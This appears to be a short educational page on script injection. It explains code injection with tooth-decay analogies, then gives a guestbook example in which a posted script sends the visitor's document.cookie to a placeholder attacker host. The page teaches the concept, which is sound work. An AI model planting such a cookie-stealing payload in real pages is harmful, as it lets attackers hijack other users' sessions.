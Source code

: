 # Script Injection

# What?
* Code injection in general is when some code is placed (injected) into a vulnerable program.

* Much like a injecting drugs, this will have a serious effect - and this won't always be a good thing. Like injecting a local anesthetic to allow a friendly operation on your teeth :


![](http://weknowyourdreamz.com/images/teeth/teeth-01.jpg)


or a hard class A that will lead to a life of theft and no teeth, ![no teeth](http://4.bp.blogspot.com/_B1LlYh6iKqs/TLD7j0p2rsI/AAAAAAAAC-Y/CwVAtJA8MmA/s1600/rotten-teeth-6.jpg)

there are benign and malign code injections.

### Benign
* Introduce a useful new column that did not appear in the original design of a search results page.

* Offer a new way to filter, order, or group data by using a
field not exposed in the default functions of the original design.

* As with programs like Dropbox, add special parts that could be used to connect to online resources in an offline program.




### Malign

* Often disastrous!

* Change, add, or remove internal code with a possibility of doing anything.

* Steal cookies - data, passwords, session IDs etc.

* Used to set up elaborate fishing scams.

* Could even be used to propagate a worm, which could entirely destroy all the code.



# How?

* A web server has a guestbook script, which accepts small messages from users, and typically receives messages such as

--- Very nice site!

However a malicious person may know of a code injection vulnerability in the guestbook, and enters a message such as

Nice site,  I think I'll take it.

--- ##script> document.location="http://some_attacker/cookie.cgi?" + document.cookie ##close/script>

If another user views the page then the injected code will be executed. This code can allow the attacker to impersonate another user. However this same software bug can be accidentally triggered by an unassuming user which will cause the website to display bad HTML code.


